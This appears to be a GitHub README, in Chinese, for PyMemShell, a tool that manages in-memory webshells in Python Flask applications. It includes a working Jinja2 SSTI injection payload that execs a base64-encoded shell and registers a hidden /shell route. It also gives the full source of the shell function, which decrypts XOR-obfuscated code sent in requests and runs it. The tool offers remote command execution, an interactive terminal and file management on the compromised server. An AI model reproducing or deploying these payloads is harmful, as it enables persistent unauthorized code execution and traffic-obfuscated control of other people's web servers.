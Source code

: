 # PyMemShell
Python内存马管理工具

在此文[《Python Flask中的SSTI和内存马》](./Python%20Flask中的SSTI和内存马.md)的基础上进行工具的开发和Payload的设计。一个没有完成的工具，代码也不够规范，使用了PyQT5及其相关扩展。

## 使用

启动UI界面（缺啥模块pip一下）

```cmd
python3 MainUI.py
```

如果需要使用demo，可以使用ide或者python来启动，正式的环境部署命令为

```bash
uwsgi --http :5006 --gevent 1000 --http-websockets --master --wsgi-file app.py --callable app
```

修改demo中的app.py

```python
socketio = SocketIO(app, cors_allowed_origins="*", async_mode='gevent')
```

generate_shell.py为生成base64编码的内存马函数，需要通过SSTI或者反序列化漏洞来进行注入

SSTI示例

```python
{{ url_for.__globals__['__builtins__']['exec'](
"
exec(__import__('base64').b64decode('Base64Shell'))
app.view_functions['shell'] = shell_func;
app._got_first_request=False;
app.add_url_rule('/shell', 'shell', shell_func, methods=['POST','GET']);
app._got_first_request=True;
", 
{'request':url_for.__globals__['request'],'ulg': url_for.__globals__, 'app':url_for.__globals__['current_app']})}}
```

Payloads目录下为功能实现的Payload，example为调试脚本。

## 功能

实现的一些基本功能都是参照了冰蝎工具的设计。Payload的写法都依赖于Python自带的一些库实现，支持Windows/Linux，交互过程的流量加密是异或。

利用SSTI漏洞、反序列化漏洞注入内存马。

### 获取基础信息

![image-20240617011227559](assets/image-20240617011227559.png)

### 命令执行窗口

多种命令执行模式，执行的命令是拼接的，用来实现切换目录。

![image-20240617011507336](assets/image-20240617011507336.png)

### 虚拟交互终端

有bug，主要是使用python中的subprocess.Popen模块获取输出流的时候并没有获取到完整的命令提示符行。在这个功能里，通过创建子线程以及实现非堵塞的输入输出管道来控制命令输入和回显输出，端口可以终止服务端的子线程。

![image-20240617011708187](assets/image-20240617011708187.png)

### 文件管理器

基本的文件操作：创建，删除，分块下载，上传。

![image-20240617011740188](assets/image-20240617011740188.png)

### ~~内网穿透~~

### ~~数据库管理~~

### ~~自定义代码执行~~

## Payload的设计

Payload的写法全部采用了Python自带的模块，区分操作系统。交互连接shell的过程模拟了冰蝎的实现，通过脚本生成内存马函数并通过shell密码来预定义异或key，随机数种子，`magic_str`。其中`magic_str`用来在提交请求的时候判断是否为连接shell的请求，加解密的实现在`RandXor.py`中。

在虚拟终端和文件管理功能中，是将函数写好，在使用之前进行注入，后续的小功能就调用注入的函数。注入（也就是定义）函数的时候需要注意：内存马使用的是`exec`来执行代码，每次 `exec` 的执行会在一个新的局部命名空间内执行代码，也就是注入的函数和后续调用的函数不在同一个命名空间中，所以这里的解决方法是将注入的函数保存在flask应用的上下文中，然后通过`exec`执行调用的时候，传递全局命名空间将注入的函数传递进去。

比如下面的例子：`shell_func`就是内存马，`exec(plaintext, parma)`用来执行Payload，同时在注入内存马的时候也是使用的exec函数，并且将 flask 应用上下文中的一些变量（对象）传递了进来，比如`request`  `url_for.__globals__`  `current_app`。同时将这些变量（对象）保存到了`parma`中，此外添加了`resp`用来获得执行结果，然后再执行Payload的时候传递了`parma`作为全局命名空间。

```python
def shell_func():
    import base64
    import random
    parma = {'resp': 'Error', 'app': app, 'gl': ulg}
    if '%magic_str%' in request.get_data(as_text=True):
        p_code = request.get_data(as_text=True).replace('%magic_str%', '')
        ciphertext = base64.b64decode(p_code)
        plaintext = bytearray(len(ciphertext))
        rkey = %rkey%
        key = base64.b64decode('%key%')
        random.seed(rkey)
        for i in range(len(ciphertext)):
            plaintext[i] = ciphertext[i] ^ (random.randint(1, len(ciphertext)) & 0xff) ^ key[i % len(key)]
            plaintext[i] = plaintext[i] ^ rkey
        exec(plaintext, parma)
        plaintext = str(parma['resp']).encode('utf-8')
        ciphertext = bytearray(len(plaintext))
        random.seed(rkey)
        for i in range(len(plaintext)):
            ciphertext[i] = plaintext[i] ^ rkey
            ciphertext[i] = ciphertext[i] ^ (random.randint(1, len(plaintext)) & 0xff) ^ key[i % len(key)]
        parma['resp'] = base64.b64encode(ciphertext).decode('utf-8')
        return str(parma['resp'])
    return parma['resp']
```

```python
{{ url_for.__globals__['__builtins__']['exec'](
"
exec(__import__('base64').b64decode('Base64Shell'))
app.view_functions['shell'] = shell_func;
app._got_first_request=False;
app.add_url_rule('/shell', 'shell', shell_func, methods=['POST','GET']);
app._got_first_request=True;
", 
{'request':url_for.__globals__['request'],'ulg': url_for.__globals__, 'app':url_for.__globals__['current_app']})}}
```

那么注入函数的写法就如下：

```python
def func_1():
	pass
def func_2():
	pass
def X_main(data):
	pass
gl['X_main'] = X_main 
# gl是再exec执行的时候通过parma传递进来的，而gl实际上是SSTI漏洞利用的时候使用exec传递的url_for.__globals__
```

这样就将注入的函数保存到了 flask 的全局命名空间中，那么后续调用注入的函数就如下所示：

```python
resp = gl['X_main']({'type': 'create', 'binPath': '$binPath$'}) # 使用resp来接收返回值
```

`resp`的定义实际上是在`shell_func`内存马中，这样就实现了`exec`函数没有返回值，但是能够获得执行结果。

当然了实现方法不止这一种，也可以暴力的将注入函数保存到Python的内建模块`builtins`中，在文章中有提到。
